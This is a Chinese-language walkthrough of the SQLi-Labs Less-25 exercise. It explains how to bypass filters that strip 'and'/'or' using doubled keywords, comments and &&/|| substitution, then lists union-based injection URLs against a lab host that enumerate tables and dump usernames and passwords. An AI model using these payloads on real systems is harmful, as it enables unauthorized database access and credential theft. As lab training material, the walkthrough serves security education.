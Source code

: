 ### **3. 绕过去除 and 和 or 的 SQL 注入**

#### Sqli-Lab 25 绕过策略

1. 1、**大小写**变形，`Or,OR,oR,OR,And,ANd,aND` 等 代码中大小写不敏感都被剔除
2. 2、在这两个敏感词汇中添加**注释**，例如: `a/**/nd` ，双写绕过 `oorr`
3. 3、利用符号替代`--and --&&`  `--or --||`

#### Less 25 绕过演示

'`and`','`or`'和'`AND`','`OR`'被**过滤**

首先发现注入类型是**数值型**注入发现

绕过 **大小写**行不通我们可以试试**双写**

```
http://192.168.70.14:8088/Less-25/?id=1 Anandd 1=1
```

&&符号

```
http://192.168.70.14:8088/Less-25/?id=1 &&1=1
```



```
http://192.168.70.14:8088/Less-25/?id=1' oorrder by 4--+
http://192.168.70.14:8088/Less-25/?id=1' oorrder by 3--+

http://192.168.70.14:8088/Less-25/?id=-1' union select 1,2,3-- +
http://192.168.70.14:8088/Less-25/?id=-1' union select 1,2,(select database())-- +
http://192.168.70.14:8088/Less-25/?id=-1' union select 1,2,(select group_concat(table_name) from infoorrmation_schema.tables where table_schema=database())--+
http://192.168.70.14:8088/Less-25/?id=-1' union select 1,2,(select group_concat(column_name) from infoorrmation_schema.columns where table_schema=database() aandnd table_name='users')--+
http://192.168.70.14:8088/Less-25/?id=-1' union select 1,2,(select group_concat(username,0x7e,passwoorrd) from users)--+
```



```
GET /Less-25/?id=1 HTTP/1.1
Host: 192.168.70.14:8088
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: xp=MTcyMjU4MTk1NnxEWDhFQVFMX2dBQUJFQUVRQUFBcF80QUFBUVp6ZEhKcGJtY01Dd0FKVTJGbVpVVnVkSEo1Qm5OMGNtbHVad3dJQUFZell6Tm1aVGM9fPMcNECUoQNlFjbgBfP0lmLnN-MAnqp1V_86YwwuNSpq
origin: http://192.168.70.14:8088
content-type: application/x-www-form-urlencoded
referer: http://192.168.70.14:8088/Less-15/
Connection: close
```
